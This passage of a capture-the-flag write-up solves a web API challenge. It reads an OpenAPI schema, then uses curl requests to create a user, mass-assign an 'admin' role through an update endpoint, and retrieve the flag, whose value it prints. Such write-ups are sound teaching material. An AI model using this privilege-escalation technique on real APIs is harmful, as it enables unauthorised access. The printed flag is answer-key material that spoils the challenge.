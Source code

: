 ```bash
              "anyOf": [
                {
                  "type": "string"
                },
                {
                  "type": "integer"
                }
              ]
            },
            "type": "array",
            "title": "Location"
          },
          "msg": {
            "type": "string",
            "title": "Message"
          },
          "type": {
            "type": "string",
            "title": "Error Type"
          }
        },
        "type": "object",
        "required": [
          "loc",
          "msg",
          "type"
        ],
        "title": "ValidationError"
      }
    }
  }
}
```

The `OpenAPI` JSON response revealed the available routes, including:

- `GET /get/{username}` → Retrieves user details
- `POST /create/{username}` → Creates a new user
- `PUT /update/{username}` → Updates user details
- `GET /flag/{username}` → Fetches a flag for a given username (likely the target)

Here’s the work-flow, create-user → update role → get flag.

```bash
└─$ curl -X POST "https://kashictf.iitbhucybersec.in:26096/create/hacker"      
-H "Content-Type: application/json"      -d '{
"fname":"John","lname":"Doe","email":"john.doe@example.com","gender":"male"}'
{"message":"User created!"}
┌──(abu㉿Abuntu)-[/mnt/c]
└─$ curl -X PUT "https://kashictf.iitbhucybersec.in:26096/update/hacker"   
-H "Content-Type: application/json"   -d '{"fname":"John","lname":"Doe","email":"john.doe@example.com","gender":"admin"}'
{"message":"User created!"}
┌──(abu㉿Abuntu)-[/mnt/c]
└─$ curl -X PUT "https://kashictf.iitbhucybersec.in:26096/update/hacker" \
  -H "Content-Type: application/json" \    -d '{"fname":"John","lname":"Doe","email":"john.doe@example.com","role":"admin"}'
{"message":"User created!"}
# Yes! for some reason I had to do this twice maybe something with the gender/role attribute
┌──(abu㉿Abuntu)-[/mnt/c]
└─$ curl -X GET https://kashictf.iitbhucybersec.in:26096/flag/hacker
{"message":"KashiCTF{m455_4551gnm3n7_ftw_GutwgPbLC}"}
```
